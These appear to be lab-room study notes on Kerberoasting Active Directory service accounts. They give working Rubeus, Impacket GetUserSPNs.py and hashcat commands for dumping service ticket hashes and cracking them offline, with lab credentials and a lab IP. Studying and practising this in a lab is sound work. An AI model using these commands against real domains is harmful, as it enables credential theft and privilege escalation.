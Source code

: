 
## Kerberoasting w/ Rubeus & Impacket

## Method 1: Rubeus

Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password. If the service has a registered SPN then it can be Kerberoastable however the success of the attack depends on how strong the password is and if it is trackable as well as the privileges of the cracked service account. To enumerate Kerberoastable accounts I would suggest a tool like BloodHound to find all Kerberoastable accounts, it will allow you to see what kind of accounts you can kerberoast if they are domain admins, and what kind of connections they have to the rest of the domain. That is a bit out of scope for this room but it is a great tool for finding accounts to target.

(note: There are other tools out there such a kekeo and Invoke-Kerberoast but I'll leave you to do your own research on those tools.)


`Rubeus.exe kerberoast` This will dump the Kerberos hash of any kerberoastable users.
format the hash into txt file, delete tabs/spaces and save as Hash.txt
Crack the hash password with `Hashcat` (*paste with P in visual mode*)
`hashcat -m 13100 -a 0 hash.txt Pass.txt`


## Method 2: Impacket


Kerberoasting w/ Impacket - 

1.) `cd /usr/share/doc/python3-impacket/examples/` - navigate to where GetUserSPNs.py is located

2.) `sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.231.14 -request` - this will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.

3.) `hashcat -m 13100 -a 0 hash.txt Pass.txt` - now crack that hash

